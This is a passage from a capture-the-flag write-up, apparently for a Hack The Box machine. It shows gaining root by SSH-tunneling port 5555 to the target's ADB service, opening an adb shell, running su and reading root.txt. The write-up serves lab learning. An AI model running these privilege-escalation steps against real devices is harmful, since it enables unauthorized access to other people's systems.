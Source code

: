 ## Root flag

As now we have SSH rights to this box, we could get root access using ADB shell using SSH Local Port redirection, where I've redirected my attacker's machine 5555/TCP to 5555/TCP in the target, via SSH as seen in the previously mentioned post.

```bash
$ ssh kristi@10.10.10.247 -p 2222 -L 5555:127.0.0.1:5555
Password authentication
Password:
:/ $
```

After this process, just needed to connect to `adb` in attacker machine from port redirection, tunneled through SSH connection and, to get `root` access, just needed to issue the command `su`.

```bash
$ adb connect 127.0.0.1:5555
connected to 127.0.0.1:5555
$ adb shell
x86_64:/ $ su
:/ # find / -type f 2> /dev/null | grep root.txt
/data/root.txt
:/ # cat /data/root.txt
<redacted>
```

I hope you guys have enjoyed this box!

See you in the next post :smiley:
